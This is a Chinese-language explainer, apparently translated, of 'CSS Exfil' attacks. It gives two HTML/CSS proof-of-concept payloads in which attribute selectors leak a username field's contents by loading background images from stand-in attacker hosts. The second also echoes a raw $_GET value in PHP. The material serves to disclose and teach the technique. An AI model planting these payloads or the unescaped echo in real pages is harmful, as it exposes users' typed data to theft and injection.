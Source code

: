 这个简单的例子演示这些选择器是如何被滥用的：

```html
<style>
    #username[value="mikeg"] {
            background:url("https://attacker.host/mikeg");
    }
</style>
<input id="username" value="mikeg" />
```

在以上的例子，当HTML/CSS被渲染到一个网页上的时候，一个背景图片被从远程攻击者的主机加载，从而指示输入框的值是'mikeg'。为了使得攻击更有效，需要额外的文本解析方法。以下是一些概念利用的验证，展示了潜在攻击的多样性、范围和严重性。

## 验证概念 #1
基础的CSS Exfil例子展示如何通过恶意的CSS/HTML泄漏用户数据

```html
<html>
<head>
    <style>
        #username[value*="aa"]~#aa{background:url("https://attack.host/aa");}#username[value*="ab"]~#ab{background:url("https://attack.host/ab");}#username[value*="ac"]~#ac{background:url("https://attack.host/ac");}#username[value^="a"]~#a_{background:url("https://attack.host/a_");}#username[value$="a"]~#_a{background:url("https://attack.host/_a");}#username[value*="ba"]~#ba{background:url("https://attack.host/ba");}#username[value*="bb"]~#bb{background:url("https://attack.host/bb");}#username[value*="bc"]~#bc{background:url("https://attack.host/bc");}#username[value^="b"]~#b_{background:url("https://attack.host/b_");}#username[value$="b"]~#_b{background:url("https://attack.host/_b");}#username[value*="ca"]~#ca{background:url("https://attack.host/ca");}#username[value*="cb"]~#cb{background:url("https://attack.host/cb");}#username[value*="cc"]~#cc{background:url("https://attack.host/cc");}#username[value^="c"]~#c_{background:url("https://attack.host/c_");}#username[value$="c"]~#_c{background:url("https://attack.host/_c");}
    </style>
</head>
<body>
    <form>
        Username: <input type="text" id="username" name="username" value="<?php echo $_GET['username']; ?>" />
        <input id="form_submit" type="submit" value="submit"/>
        <a id="aa"><a id="ab"><a id="ac"><a id="a_"><a id="_a"><a id="ba"><a id="bb"><a id="bc"><a id="b_"><a id="_b"><a id="ca"><a id="cb"><a id="cc"><a id="c_"><a id="_c">
    </form>
</body>
</html>
```

以上的例子并不包含现实全部的情况，但是它能够论证基本的CSS Exfil攻击形式。当一个用户键入字符串包含字母'a'，'b'，'c'，特定的元素将会被一个远程攻击者的服务器上并不存在的图片装饰。使这个攻击成功需要满足三个条件：

- 条件#1：所解析的数据必须在页面加载时显示
- 条件#2：必须存在一个或者多个相对于数据元素的元素可以被CSS选择器选择中
- 条件#3：被装饰的元素必须要能够接受一种带URL的属性样式（例如： background / background-image, list-style / list-style-image, or cursor）。

